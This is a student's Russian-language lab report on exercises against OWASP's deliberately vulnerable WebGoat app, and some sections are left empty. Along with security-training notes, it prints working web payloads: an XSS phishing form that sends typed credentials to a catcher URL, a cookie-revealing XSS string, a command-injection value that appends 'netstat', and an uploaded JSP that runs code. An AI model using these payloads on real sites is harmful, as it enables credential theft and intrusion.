\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{listings}
\lstset{
basicstyle=\small\ttfamily,
columns=flexible,
breaklines=true}
\author{Дмитрий Баринов}
\title{Отчет по лабораторной работе№4 WebGoat}
\begin{document}
\maketitle
\newpage

\section{Проект OWASP WebGoat}

\subsection{Цель работы}

Исследовать безопасность Web-приложения на основе уязвимого приложения WebGoat.

\subsection{Ход работы}

\paragraph{Исследование 10 самых распространенных web-уязвимостей по рейтингу OWASP} 

\begin{enumerate}
\item \textbf{Injection} Атака на интепритатор машины-цели, позволяя выполнять произвольный код от ее имени. Чаще всего встрачаются в SQL, LDAP, Xpath, или NoSQL запросах, парсерах xml, аргументах программ и т.д.

\item \textbf{Broken Authentication and Session Management} Атака на уязвимости систем авторизации и управления сессиями с целью кражи и/или выполнения каких либо действий от чужого имени.

\item \textbf{Cross-Site Scripting} Атака на браузер путем подмены загружаемых скриптов. В результате злоумышлиниками может быть получена почти любая информация.

\item \textbf{Insecure Direct Object References} Суть атаки - изменение некого объекта, используемого в авторизированной сессии. Пример: 
\begin{verbatim}
String query = "SELECT * FROM accts WHERE account = ?";
PreparedStatement pstmt = connection.prepareStatement(query , … );

pstmt.setString( 1, request.getParameter("acct")); <<<<<

ResultSet results = pstmt.executeQuery( );
\end{verbatim}

Изменение параметра позволит отправлять измененные запросы от имени авторизированного пользователя.

\item \textbf{Security Misconfiguration} Ошибки в конфигурации. Атакующий может получить доступ к файлам, акаунтам, системе и т.д.

\item \textbf{Sensitive Data Exposure} Кража ценной/личной информации. Атака сложна если используется шифрование. В таком случае данные крадутся косвенными методами: на стороне клиента, когда данные уже рашифрованы, man-in-the-middle атака и другими способами.

\item \textbf{Missing Function Level Access Control} Доступ неавторизированного пользователя к привелегированным функциям. 
Пример: 

\begin{verbatim}
http://example.com/app/getappInfo
http://example.com/app/admin_getappInfo <<<<
\end{verbatim}

Доступ к функции admin\_getappInfo должен иметь только администратор. Соответственно, если пользователь, не являющийся администритором получает доступ к данной функции - это уязвимость.

\item \textbf{Cross-Site Request Forgery} Атака путем выполнения запросов к некоторому защищенному ресурсу от его имени авторизованного пользователя. Недостаток - атакующий \textbf{НЕ} может перехватить ответ от ресурса. В этом случае вводят так называемые CSRF-токены: каждый последующий пакет от клиента содержит токен, полученный в пердыдущем ответе сервера.

\item \textbf{Using Components with Known Vulnerabilities} Атака на уязвимый компонет системы, выявленный в результате сканирования.

\item \textbf{Unvalidated Redirects and Forwards} Скрытые ссылки в картинках, фреймах и т.д., ведущих на доверенный сайт. Позволяет произвести любой запрос.
Пример:
\begin{verbatim}
http://www.example.com/redirect.jsp?url=evil.com
\end{verbatim}
\end{enumerate}

\subsection{Практическое задание}

\paragraph{Подготовка}
Скачаны WebGoat, OWASP Mantra, OWASP Zed Attack Proxy. 

Запуск WebGoat:
\begin{verbatim}
java -jar WebGoat-6.0.1-war-exec.jar
\end{verbatim}

Проверка работоспособности:
Переход по ссылке "http://localhost:8080/WebGoat".

\begin{figure}[h!]
\centering

\includegraphics[scale=0.3]{WebGoat.jpg}
\caption{Запуск WebGoat}
\end{figure}

Запуск OWASP ZAP:
\begin{figure}[h!]
\centering
\includegraphics[scale=0.34]{Zap.jpg}
\caption{Запуск ZAP}
\end{figure}

Запуск OWASP MANTRA:
\begin{figure}[h!]
\centering

\includegraphics[scale=0.25]{Mantra.jpg}
\caption{Запуск MANTRA}
\end{figure}

По непонятной причине, часть текста в Mantra отображается в виде знаков "?". Поэтому было решено использовать стандартный браузер Chrome.

Настройка прокси в ZAP: Tools->Options->Локальный прокси-сервер. Порт 8081, адрес "localhost".

Далее, настраиваем Chome для работы с прокси: Настройки->Изменить настройки прокси-сервера -> Настройки сети -> прокси сервер. Адрес "localhost", порт 8081.

Проверяем, что все работает: открываем в Chrome "http://localhost:8080/WebGoat". Страциа открылась, в ZAP появилась запись во вкладке "Сайты" -  трафик браузера идет через прокси.

\subsubsection{Недостатки контроля доступа}

В первом пункте мы исследовали уязвимость "Недостатка контроля доступа" на примере простой сайта с ролевой системой доступа. Путем подмены аргументов в запросе мы вызывали приватные функции, получали закрытую информацию. 

\begin{figure}[h!]
\centering

\includegraphics[scale=0.5]{1.jpg}
\caption{Выполнение пункта Недостатки контроля доступа.}
\end{figure}

\subsubsection{Безопасность AJAX}

1. Запросы могут отсылаться только серверу-отправителю страницы. Сделано в целях безопасности, но может быть частично отключено настройками браузера/сервера.\\

2 Наглядный пример почему следует экранировать воля ввода.\\

3. Фильрование данных на стороне клиента не является безопасным, меняем код серверного скрипта для фильтрования данных на стороне сервера.\\

4. Dom injection. Необходимо перехватить ответ сервера и подменить ответ на "document.form.SUBMIT.disabled = false".\\

5. XML Injection. необходимо перехватить ответ сервера и дописать себе награды:
\begin{verbatim}
<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat Lamborgini</reward>
<reward>WebGoat Mug 100500 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
</root>
\end{verbatim}

6. Json injection. При вводе кодов не происходит передача сообщения. Возможно, это баг.\\

7. "Тихое" выполнение кода. Функция, отвечающая за перевод называется submitData(userId, amount); Вызовя данную функция через консоль с нужными параметрами мы произведем успешный перевод денег без непосредственного участия пользователя: submitData(1234556,11000);\\

8. Вызов функции на стороне клиента путем отправки специального запроса на сервер: сервер возвращает данный код и он выполняется на стороне клиента:
\begin{verbatim}
123');alert(document.cookie);('
\end{verbatim}

Данный код выводит в виде alert-сообщения куки данной страницы. Еще раз доказывавет, как важно экранировать пользовательский ввод.

9. Небезопасное хранение данных. Для получения кода для купона необходимо пехватить ответ сервера, найти зашифрованный код купона (я выбрал "emph") и вызвать в консоле функцию decode(code) для получения кода купона, получившийся код "GOLD".\\
Далее, для получения всего заказа БЕСПЛАТНО, необходимо перехватить запрос к серверу, указа в поле "GRANDTOT" значение 0000.00.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.6]{2.jpg}
\caption{Выполнение пункта AJAX Security.}
\end{figure}


\subsubsection{Недостатки аутентификации}

1. Демонстрация криптоустойчивости различных паролей.

2. Демонстрация уязвимости при незащищенной системе восстановления пароля. Для аккаунта "admin" секретное слово green. Вывод: даже при сильном пароле нельзя забывать о сложности вопроса/ответа для восстановления пароля.

3. Multi level login 1. Очередной пример того, что нельзя обрабатывать значимые данные на стороне клиента: подменой параметра hidden\_tan мы можем обойти второй уровень авторизации.

4. Multi level login 2. Путем подмены поля hidden\_user=Jane мы можем авторизироваться за другого пользователя. Очень странно, как это может допустить сервер.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.6]{3.jpg}
\caption{Выполнение пункта Authentification flaws.}
\end{figure}



\subsubsection{Переполнение буфера}

Перехватываем отправку данных на сервер, подменяем номер комнаты на строку длиной 5000 символов. Далее, на втором шаге регистрации, отправив тарифный план, открываем инструменты разработчика и просматриваем код страницы. Видим скрытые элементы:
\begin{verbatim}
<input type="hidden" value="Johnathan" name="d"></input>
<input type="hidden" value="Ravern" name="e"></input>
<input type="hidden" value="4321" name="f"></input>
<input type="hidden" value="John" name="g"></input>
<input type="hidden" value="Smith" name="h"></input>
<input type="hidden" value="56" name="i"></input>
<input type="hidden" value="Ana" name="j"></input>
<input type="hidden" value="Arneta" name="k"></input>
<input type="hidden" value="78" name="l"></input>
<input type="hidden" value="Lewis" name="m"></input>
<input type="hidden" value="Hamilton" name="n"></input>
<input type="hidden" value="9901" name="o"></input>
\end{verbatim}
 
Используем один из аккаунтов для повторной регистрации.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{4.jpg}
\caption{Выполнение пункта Buffer overflows.}
\end{figure}


\subsubsection{Качество кода}

Иногда разработчики оставляют конфиденциальные данные, такие как логин/пароль в комментариях, в надежде, что кроме них никто и никогда туда не заглянет. А учитывая, что html страница передается как есть, то скорее всего такую оплошность сразу заметят. Данный пример это хоршо иллюстрирует. Логин admin, пароль adminpw.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{5.jpg}
\caption{Выполнение пункта Code quality.}
\end{figure}

\subsubsection{Многопоточность}

Необходимо быть осторожным, разрабатывая многопоточное приложение: одновременное обращение двух браузеров к одной функции ведет к выдаче ответа на чужой запрос:\\
Браузер 1, запрос "jeff".\\
Ответ: 	dave.\\
Браузер 2, запрос "dave". \\
Ответ: 	dave.\\
\\

Аналогичная проблема возникает в пункте 2. Только здесь, при двухэтапной покупке, данные текущей покупки заменяются новой. В результате списывается не та сумма.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{6.jpg}
\caption{Выполнение пункта Concurrency.}
\end{figure}

\subsubsection{Межсайтовое выполнение сценариев}

1. Фишинг - вид интернет-мошенничества, целью которого является получение доступа к конфиденциальным данным пользователей — логинам и паролям. Напишем код, который будет имитировать окно ввода логина и пароля:
\begin{lstlisting}

</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
\end{lstlisting}

В результате, при вводе логина и пароля данная форма отправляет их на свой (фишинговый) сервис. 

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{7.jpg}
\caption{Выполнение пункта Cross-site scripting.}
\end{figure}

\subsubsection{Неправильная обработка ошибок}

В результате неправильной обраьотки ошибки, отсутствие параметра "пароль" позволяет залогиниться в систему.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{8.jpg}
\caption{Выполнение пункта Inproper Error Handling.}
\end{figure}

\subsubsection{Недостатки, приводящие к инъекциям}

В данном разделе ма рассмотрели основные способы проведения инъекций: инъекции поманд, xpath инъекции, sql инъекции. Стоит отметить, что для успехных sql и xpath инъекций необходимо экранировать строку! Пример:
\begin{verbatim}
%22%3B%20netstat%20-a  "& netstat -a
\end{verbatim}

эквивалентно

\begin{verbatim}
"& netstat -a
\end{verbatim}

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{9.jpg}
\caption{Выполнение пункта Injection flaws.}
\end{figure}

\subsubsection{Отказ в обслуживании}

1. Zip bomb. В сжатом состоянии занимает всего лишь 98КБ, однако, в разжатом состоянии занимает 97,2 МБ(массив нулей). Очевидно, что это вызовет падения сервера, расчитанного лишь на 20 Мб.

2. Multiple logins. SQL инъекция позволяет получить всех пользователей системы. При одновременном входе 3+ пользователей система падает.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{10.jpg}
\caption{Выполнение пункта Denial of service.}
\end{figure}

\subsubsection{Небезопасное сетевое взаимодействие}

\subsubsection{Небезопасная конфигурация}

Конфигационный файл открыт для доступа любому пользователю. Так делать нельзя.

\begin{verbatim}
localhost:8080/WebGoat/conf
\end{verbatim}

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{12.jpg}
\caption{Выполнение пункта Insecure configuration.}
\end{figure}

\subsubsection{Небезопасное хранилище}

Данный пример наглядно демонстрирует какие строки в каких кодировках кодируются/декодируются некорректно. Например, URL:
\begin{verbatim}
Encoded "a+c"
Decoded "a c"
\end{verbatim}


\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{13.jpg}
\caption{Выполнение пункта Insecure Storage.}
\end{figure}

\subsubsection{Исполнение злонамеренного кода}

Созданима файл с именем mfe.jsp
\begin{verbatim}
<HTML>
<%
java.io.File file = new java.io.File(".extract\\webapps
\\WebGoat\\mfe_target\\webgoat.txt");
file.createNewFile();
%>
</HTML>
\end{verbatim}

Загрузим данный файл как изображение. Далее перейдя по ссылке "http://localhost:8080/WebGoat/uploads/mfe.jsp" запустим его. Получили типичное выполнение злонамеренного кода.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{14.jpg}
\caption{Выполнение пункта Malicious Execution.}
\end{figure}


\subsubsection{Подделка параметров}

Пример демонстрирует, что если вы реализовали проверку данных на валидность на стороне клиента, то это еще ничего не значит. Вам ТОЧНО придется проверять данные на стороне сервера.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{15.jpg}
\caption{Выполнение пункта Parametr Tampering.}
\end{figure}

\subsubsection{Недостатки управления сессией}

1. 

2. Cookie: AuthCookie=65432fdjmb; JSESSIONID=2046E3FC557A6020EC039C753ABE9C2F; WEAKID=19236-1433453245898

\subsubsection{Безопасность веб-сервисов}


\end{document}